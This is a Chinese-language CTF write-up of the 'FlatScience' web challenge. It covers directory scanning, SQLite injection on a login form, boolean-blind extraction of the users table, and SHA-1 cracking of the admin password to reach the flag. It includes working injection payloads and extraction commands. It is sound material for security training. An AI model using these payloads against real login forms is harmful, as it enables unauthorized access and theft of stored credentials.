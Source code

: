 1、dirsearch扫描发现有

[10:23:06] 200 -  757B  - /admin.php
[10:23:22] 200 - 1023B  - /index.html
[10:23:24] 200 -  833B  - /login.php
[10:23:29] 200 -   61B  - /robots.txt

http://111.198.29.45:32197/

robots.txt中不准访问login.php和admin.php

2、打开login.php

用burp sql fuzz

发现存在注入点,且无论结果正确都没有明确结果，而且是sqlite数据库

```
usr=a' and ''='&pw=1 #正确
usr=a' and ''=&pw=1  #报错
usr=a' or 1=1 or '1'='1&pw=1  #cookie中有值，代表sql语句执行正确
```

下一步检测是报错注入还是布尔盲注

由于对sqlite语法不熟悉，而且检测了下发现不会显示报错字符，所以采用布尔注入

检测语句：

```
usr=hi' or ({sql} and 1) --&pw=1 
```

通过返回的请求头有没有admin判断是否正确



利用脚本破解

```
python3 FlatScienece.py -t sqlite_master -f name -w="type='table'"
python3 FlatScienece.py -t sqlite_master -f sql -w="type='table'"
python3 FlatScienece.py -t Users -f name 
python3 FlatScienece.py -t name -f name 
python3 FlatScienece.py -t hint -f name 
```

长度为5,

表名为Users

sql为96，sql:CRETE TABLE Users(id int primary key,name varchar(255),password varchar(255),hint varchar(255))

name长度5：admin

密码长度40:3fab54a50e770d830c0416df817567662a9dc85bc

hint长度28:my fav word in my fav paper?

将paper中所有关键词提取出来，然后sha1碰撞破解得到密码ThinJerboa

访问admin.php登录后得到flag




